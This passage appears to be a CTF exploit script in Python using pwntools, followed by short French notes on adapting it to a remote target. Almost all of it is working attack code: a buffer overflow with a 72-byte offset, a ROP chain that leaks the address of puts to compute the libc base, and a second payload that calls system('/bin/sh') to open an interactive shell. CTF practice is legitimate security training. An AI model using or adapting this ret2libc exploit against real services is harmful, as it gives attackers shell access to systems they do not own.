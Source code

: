 ```python
    elif args.GDB:
        return gdb.debug([exe.path], gdbscript='b main\nc')
    else:
        return process([exe.path])

p = start()

# parameters (found via analysis)
offset = 72

# gadgets
rop = ROP(exe)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

# Stage 1: leak puts
payload = flat(
    b'A'*offset,
    p64(pop_rdi),
    p64(exe.got['puts']),
    p64(exe.plt['puts']),
    p64(exe.symbols['main'])
)

p.sendline(payload)
p.recvline()                  # maybe prompt
leak = p.recvline().strip()   # read the leaked address line
puts_leak = u64(leak.ljust(8, b'\x00'))
log.info(f"puts leak: {hex(puts_leak)}")

libc_base = puts_leak - libc.symbols['puts']
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))

log.info(f"libc base: {hex(libc_base)}")
log.info(f"system: {hex(system)} binsh: {hex(binsh)}")

# Stage 2: get shell
payload2 = flat(
    b'A'*offset,
    p64(pop_rdi),
    p64(binsh),
    p64(system)
)

p.sendline(payload2)
p.interactive()
```

> Notes :
> - En remote CTF il faut souvent remplacer `libc` par la libc fournie par l’organisateur ou déduite via leaks.
> - Ajuster `recv` selon protocole (prompt, newline, etc.).

---
